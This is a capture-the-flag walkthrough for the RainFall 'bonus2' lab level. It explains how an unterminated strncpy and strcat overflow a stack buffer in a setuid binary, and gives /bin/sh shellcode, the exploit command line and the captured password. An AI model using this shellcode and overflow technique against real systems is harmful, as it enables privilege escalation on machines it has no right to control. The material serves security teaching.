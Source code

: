 # Bonus2

## Solution

* There is one file in our home, ```bonus2```, belonging to ```bonus3``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the very long disassembled code, but we will describe its behaviour:

	* ```main``` function returns ```1``` if there are not exactly two parameters passed to the program
	* it allocates on its stack a buffer a ```0x4c``` bytes buffer
	* the content of ```argv[1]``` is copied using ```strncpy``` with a limit of ```0x28 = 40``` bytes
	* the content of ```argv[2]``` is copied using ```strncpy``` at the offset ```0x28 = 40``` bytes, with a limit of ```0x20 = 32``` bytes
	* ```getenv``` gets the value of environment variable ```LANG``` :
		* if the string starts with ```fi```: global variable ```language``` is set to 1
		* if it starts with ```nl```: global variable ```language``` is set to 2
		* else, it keeps ```0``` value
	* ```greetuser``` function is then called
	* ```greetuser``` allocates on its stack a ```0x40 = 64``` bytes buffer
	* depending on the value of ```language```, it fills the buffer with:
		*  ```Hyvää päivää ``` if ```language``` is equal to ```1```
		* ```Goedemiddag! ``` if ```language``` is equal to ```2```
		* ```Hello ``` if ```language``` is equal to ```0```
	* it then concatenates this buffer with the buffer allocated in ```main``` stackframe

* What we did with all of that:

	* our goal wa to use the buffer allocated in ```greetuser``` to write an address of a shellcode in place of the former ```eip``` address
	* the offset between the beginning of the buffer and the location of former ```eip``` address is ```0x4c = 76``` bytes : it means that we wanted to write the address of our shellcode ```76``` bytes after the beginning of ```final_buf```
	* as ```argv[1]``` is copied in the ```main``` buffer using ```strncpy```, if there is no ```\0``` in the first ```40``` bytes, the copy won't be terminated
	* we used it to concatenate ```argv[1]``` with ```argv[2]```, allowing us to store a string up to ```40 + 32 = 72``` bytes
	* before launching the program we made two modifications in the environment :
		* ```export LANG=fi``` so that the string used to greet user would be ```Hyvää päivää ``` (```18``` bytes as ```ä``` is ```2``` bytes)
		* ```export SHELLCODE=`python -c "print('\x90' * 1024 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')"` ``` to store the shellcode the environment
	* we then used the same program used in ```bonus0``` to get an approximative address of ```SHELLCODE```:
	```
	bonus2@RainFall:~$ /var/crash/env SHELLCODE
	SHELLCODE: 0xbffff4d0
	```
	* we could now exploit the vulnerability of ```bonus2``` file:
	```
	bonus2@RainFall:~$ ./bonus2 `python -c "print('A' * 40)"` `python -c "print('B' * 18 + 'd0f4ffbf'.decode('hex'))"`
	Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
	$ cd ../bonus3; cat .pass
	71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
	```
	* we used a total of ```58``` padding chars as ```18 (bytes of the finnish greeting) + 58 = 76``` (offset between beginning of the buffer and former ```eip``` address location)
